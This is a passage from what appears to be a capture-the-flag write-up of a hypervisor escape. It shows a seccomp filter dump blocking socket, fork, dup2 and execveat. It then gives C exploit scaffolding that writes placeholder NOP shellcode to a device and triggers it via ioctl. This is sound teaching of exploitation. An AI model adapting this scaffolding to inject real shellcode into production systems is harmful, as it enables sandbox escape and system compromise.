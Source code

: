 ```bash
 0005: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0006: 0x15 0x00 0x01 0x00000039  if (A != fork) goto 0008
 0007: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0008: 0x15 0x00 0x01 0x00000021  if (A != dup2) goto 0010
 0009: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0010: 0x15 0x00 0x01 0x00000142  if (A != execveat) goto 0012
 0011: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

So, this is a blacklist of `socket`, `fork`, `dup2`, and `execveat` system calls. However, we can still use `open` and `write`, and the remote provides us the output of the hypervisor!

### Exploitation

So, let's create a userland program that when executed performs the trip to the `hypervisor` and executes some shellcode:

```c
//main.c
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/mman.h>

const char *shellcode = "\x90\x90\x90\x90"; //4x "nop" instruction
const size_t shellcode_len = 4;

int main(int argc, char ** argv) {
    int fd = open("/dev/exploited-device", O_RDWR);
    if(fd == -1) {
        perror("open"); exit(1);
    }

    ssize_t res = write(fd, shellcode, shellcode_len);
    if(res != shellcode_len) {
        printf("write error. Written: %ld\n", res); exit(1);
    }
    if ( (res = ioctl(fd, 0xdead)) < 0) { //write shellcode to supervisor
        perror("ioctl1"); exit(1);
    }
    if ( (res = ioctl(fd, 0xbeef)) < 0) { //invoke shellcode
        perror("ioctl2"); exit(1);
    }

    return 0;
}
```
